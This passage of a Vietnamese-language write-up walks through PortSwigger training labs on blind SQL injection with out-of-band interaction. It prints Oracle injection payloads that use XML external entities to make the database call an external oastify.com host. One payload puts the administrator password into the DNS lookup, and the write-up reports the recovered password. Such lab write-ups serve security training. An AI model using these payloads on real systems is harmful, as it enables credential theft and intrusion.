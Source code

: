 Bắt được request chứa cookie của `TrackingID`
![image](https://hackmd.io/_uploads/ry0XVgzrT.png)

Ta có [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
![image](https://hackmd.io/_uploads/r1-XrlMSp.png)

Payload với Oracle:
```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//er94by32oxu0bsyi2yhmlk86bxht5lta.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
![image](https://hackmd.io/_uploads/B17bwlzr6.png)

DNS lookup thành công
![image](https://hackmd.io/_uploads/S12ZPgMra.png)
![image](https://hackmd.io/_uploads/HJvGveGH6.png)

# Lab 18: Blind SQL injection with out-of-band data exfiltration
![image](https://hackmd.io/_uploads/H1kaDxfrp.png)
- Lab này chứa lỗ hổng blind SQL injection. Ứng dụng sử dụng cookie theo dõi để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie đã gửi.
- Có thể kích hoạt các tương tác out-of-band với domain bên ngoài.
- Database chứa bảng `users`, với các cột `username` và ` password`. 
- Để giải lab, login bằng administrator.

Tương tự như lab trên nhưng ta sẽ thay đổi query SQL một chút
Ta có [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
![image](https://hackmd.io/_uploads/r1X1dlfHa.png)

Payload:
```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.jm9963y7j2p56xtnx3crgp3b62cz0poe.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
![image](https://hackmd.io/_uploads/HJdw9gfS6.png)

DNS lookup thành công và ta nhận được password ` q7d99gdu2trcl7aanne2`
![image](https://hackmd.io/_uploads/By5uqlMHp.png)
![image](https://hackmd.io/_uploads/H1Yp9efBa.png)



